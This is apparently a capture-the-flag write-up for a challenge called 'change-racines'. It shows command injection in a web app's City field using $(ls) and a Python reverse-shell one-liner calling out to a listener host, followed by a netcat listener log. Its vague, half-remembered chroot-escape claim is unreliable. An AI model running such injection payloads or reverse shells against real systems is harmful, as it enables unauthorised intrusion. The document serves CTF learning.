 # change-racines
# Flag 1

## Recon

Information available:
- http://REDACTED:9090
- https://www.cheswick.com/ches/papers/berferd.pdf

The app: 

![alt text](img/app.png)

There is a City field and a refresh button

Without any value in the city field, lets hit refresh:
```python
(b'\n', None)
```
Well well well, look like python to me!

`None` Lets try a string in the city field now:

```python
(b'PlatypusJovial\n', None)
```
Humm, straith python?
`import os; print('\n'.join(os.listdir('.')))`

```python
(b"/bin/bash: -c: line 1: syntax error near unexpected token `'\\n'.join'\n/bin/bash: -c: line 1: `echo import os; print('\\n'.join(os.listdir('.')))'\n", None)
```

/bin/bash -c.. humm `ls`?
```python
(b'ls\n', None)
```

Humm `$(ls)`
```python
(b'__pycache__ app.py bin etc flag1 get-pip.py lib lib64 python root templates usr\n', None)
```

That was an easy one `$(cat flag1)`
```python
(b'/bin/bash: line 1: cat: command not found\n\n', None)
```
Aw.. oh.. maybe not so easy. Clearly python is there somewhere! Is it time for a python a reverse shell?
https://www.revshells.com

Had to adapt it to the situation
```python
$(./python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

And finally.. i broke the toy.. (On the writeups instance)
```python
nc -lvnp REDACTED
listening on [any] REDACTED ...

connect to [REDACTED] from (UNKNOWN) [REDACTED] REDACTED
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/python/lib/python3.9/pty.py", line 156, in spawn
    pid, master_fd = fork()
  File "/python/lib/python3.9/pty.py", line 97, in fork
    master_fd, slave_fd = openpty()
  File "/python/lib/python3.9/pty.py", line 30, in openpty
    master_fd, slave_name = _open_terminal()
  File "/python/lib/python3.9/pty.py", line 60, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices
```
Oh ... 

Available binary: `bash ls rm touch`
I don't even remember how I did it...so i think it was a python reverse shell. Then you create a new `chroot` and linux can't handle 2 `chroot` at the same time
So it lead to break out of it

If the instance get fixed I will update the solution
